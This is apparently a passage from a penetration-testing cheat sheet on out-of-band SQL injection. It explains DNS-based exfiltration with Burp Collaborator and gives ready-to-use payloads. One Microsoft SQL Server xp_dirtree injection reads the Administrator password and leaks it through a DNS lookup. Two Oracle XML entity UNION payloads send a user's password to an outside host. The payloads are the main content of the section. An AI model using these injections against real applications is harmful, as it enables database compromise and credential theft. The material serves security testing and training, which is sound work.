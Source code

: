 			end
		end
	end
	```
***

### Out-Of-Band Data Exfiltration (OAST)
https://medium.com/bugbountywriteup/out-of-band-oob-sql-injection-87b7c666548b
https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/

Set up an Out-Of-Band attack with `Responder`  
https://omercitak.com/out-of-band-attacks-en/

If an application processes the request asynchronously, then the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query. In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS.

The easiest and most reliable way to use out-of-band techniques is using Burp Collaborator. This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application.

- On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

		'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--

- This will cause the database to perform a lookup for the following domain:

		0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net

- Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

		'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--

- This input reads the password for the Administrator user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

		S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net

- XML Payloads
	- Confirm that we get the DNS request

			'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

	- Exploit the vulnerability and grab the password for a specific user

			'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
